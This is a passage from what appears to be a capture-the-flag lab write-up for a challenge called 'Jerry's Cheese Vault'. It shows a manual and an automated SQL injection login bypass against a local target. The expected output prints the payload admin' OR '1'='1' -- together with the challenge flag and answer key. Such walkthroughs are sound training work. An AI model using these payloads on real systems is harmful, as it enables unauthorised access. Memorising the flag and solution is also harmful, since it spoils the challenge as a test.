 **Step 3:** Submit form

**Step 4:** Observe results
- ✅ Authentication bypassed
- ✅ Logged in as admin user
- ✅ Redirected to `/vault`
- ✅ "Admin Notes" section visible

**Step 5:** Retrieve flag

Scroll to "Admin Notes" section and find:

```
Title: Master Key Location
Content: The master key to Jerry's cage is hidden behind the 
         portrait in the living room. 
         Flag: Exploit3rs{cheese_vault_sql_inject_2025}
```

**Flag Found:** `Exploit3rs{cheese_vault_sql_inject_2025}`

---

### Method 2: Automated Exploitation (Golden Solution)

**Prerequisites:**
```bash
cd golden_solution
pip3 install -r requirements.txt
```

**Execute Exploit:**
```bash
python3 solve.py http://localhost:8080
```

**Script Workflow:**

1. **Health Check** - Verify target is reachable
2. **Payload Injection** - Send SQL injection via POST
3. **Session Capture** - Maintain authenticated session
4. **Vault Access** - Request admin page
5. **Flag Extraction** - Parse HTML for flag pattern
6. **Report** - Display captured flag

**Expected Output:**
```
=== Golden Solution: Jerry's Cheese Vault ===
[*] Health: 200 ok
[>] SQLi login with username="admin' OR '1'='1' -- "
[*] POST /login => 200
[*] GET /vault => 200

[+] FLAG FOUND: Exploit3rs{cheese_vault_sql_inject_2025}
```

---

